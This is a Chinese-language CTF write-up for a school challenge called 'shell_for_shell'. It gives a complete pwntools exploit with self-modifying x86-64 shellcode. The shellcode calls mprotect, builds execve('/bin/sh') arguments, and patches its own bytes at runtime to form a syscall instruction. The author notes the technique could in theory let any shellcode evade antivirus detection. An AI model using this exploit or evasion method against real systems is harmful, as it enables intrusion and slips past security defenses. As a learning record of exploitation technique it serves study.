

# 自改变shellcode

by Maple

校赛的`shell_for_shell`打破防了，但学到了一个叫做**自改变shellcode**的shellcode注入方式，理论来说可以实现所有的shellcode免杀，记录一下

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
gdb.attach(p)

#----恢复栈帧------
shellcode = """
	mov rbp, 0x404500
    mov rsp, rbp
    lea r15, [rip+0xe00]
    sub r15, 0xe16
    mov rdi, r15
    mov rsi, 0x1000
    mov rdx, 0x7
    mov rax, 0x401070
    call rax
    mov si, word ptr [r15 + 0x100]
    add si, 0x101
    mov word ptr [r15 + 0x100], si
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
"""
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"

print(payload)
p.send(payload)
p.interactive()
```

这边分段分析一下

## 恢复栈+调用mprotect改权限

```assembly
mov rbp, 0x404500		;栈底恢复
    mov rsp, rbp			;rbp赋给rsp，恢复栈顶
    lea r15, [rip+0xe00]	;这里如果动调过会发现rip被保留了（其实看ida的汇编码也能看出来），就拿rip做传递栈指针
    sub r15, 0xe16			;额外减0x16，退回最开始的地址（之前总共0x16字节的汇编程序）
    mov rdi, r15			;rdi被传递,这里即addr = rdi
    mov rsi, 0x1000			;len = 0x1000
    mov rdx, 0x7			;prot = 7
    mov rax, 0x401070		;rax = 0x401070(对应mprotecct)
    call rax				;call mprotect指令
```

这里将栈底恢复为`0x404500`(因为动调发现这里有写入权限)，而写中间值是为了方便上下增长



## 压栈构造execve的参数，准备执行shellcode

这里构造了`execve("/bin/sh",["sh",NULL],NULL)`

```assembly
mov si, word ptr [r15 + 0x100]	;r15的值+0x100，赋给si（rsi，16位模式)
    add si, 0x101					;再将si加上0x101
    mov word ptr [r15 + 0x100], si	;修改后的si存给r15+0x100的内存位置
    /*这里是为了给后面syscall找个确定位置，顺便自加一*/
    push 0x68						;压入"h"
    mov rax, 0x732f2f2f6e69622f		;压入/bin///s到rax中
    push rax						;压入rax中的值
    mov rdi, rsp					;栈顶指针给rdi，作为路径字符串的地址，后面直接写入execve

    push 0x1010101 ^ 0x6873			;异或的值压栈，避免显式空字节
    xor dword ptr [rsp], 0x1010101	;异或解密栈顶4字节，得到'sh\x00'
    xor esi, esi /* 0 */
    push rsi 						;作为字符串的\x00
    push 8							;压入8，后面计算‘sh\x00'字符串地址用
    pop rsi							;将8弹给rsi
    add rsi, rsp					;rsi=8+rsp，指向'sh\x00'
    push rsi 						;压入sh\x00
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve 				;等价于push 0x3b
    pop rax							;弹给rax
```

## 写入syscall

```python
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"
```

这里是题目问题，先随便写一个代码在这里，消除第一字节为`\x00`的影响

写入了`\x90(nop)`指令填充

接下来`\x0e\x04`在第100字节那里了，然后就是`40e+101`返回给rsi，变成了`50f`,也就是`\x0f\x05`(syscall的机器码)

之后又把这个写回去，跟`pop rax`续上，执行完整的shellcode